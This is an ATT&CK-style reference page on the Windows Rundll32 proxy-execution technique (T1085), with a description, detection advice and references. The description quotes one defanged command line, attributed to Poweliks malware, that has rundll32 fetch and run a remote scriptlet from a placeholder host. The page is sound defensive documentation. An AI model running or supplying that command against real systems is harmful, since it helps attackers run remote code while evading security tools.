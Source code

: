 ```yaml
---
contributors:
- Ricardo Dias
- Casey Smith
id: attack-pattern--62b8c999-dcc0-4755-bd69-09442d9359f5
mitre_attack_url: https://attack.mitre.org/techniques/T1085
name: Rundll32
platforms:
- Windows
tactics:
- defense-evasion
- execution
title: defense-evasion - Rundll32
---
```


## Technical Details

| Attribute | Details |
|-----------|----------|
| **Tactics** | defense-evasion, execution |
| **Platforms** | Windows |
| **Permissions Required** | User |
| **MITRE ATT&CK URL** | [https://attack.mitre.org/techniques/T1085](https://attack.mitre.org/techniques/T1085) |

# Rundll32 (attack-pattern--62b8c999-dcc0-4755-bd69-09442d9359f5)

## Description
The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

## Detection
Use process monitoring to monitor the execution and arguments of rundll32.exe. Compare recent invocations of rundll32.exe with prior history of known good arguments and loaded DLLs to determine anomalous and potentially adversarial activity. Command arguments used with the rundll32.exe invocation may also be useful in determining the origin and purpose of the DLL being loaded.

## External References
- [mitre-attack](https://attack.mitre.org/techniques/T1085)
- [Trend Micro CPL](https://www.trendmicro.de/cloud-content/us/pdfs/security-intelligence/white-papers/wp-cpl-malware.pdf)
- [This is Security Command Line Confusion](https://thisissecurity.stormshield.com/2014/08/20/poweliks-command-line-confusion/)
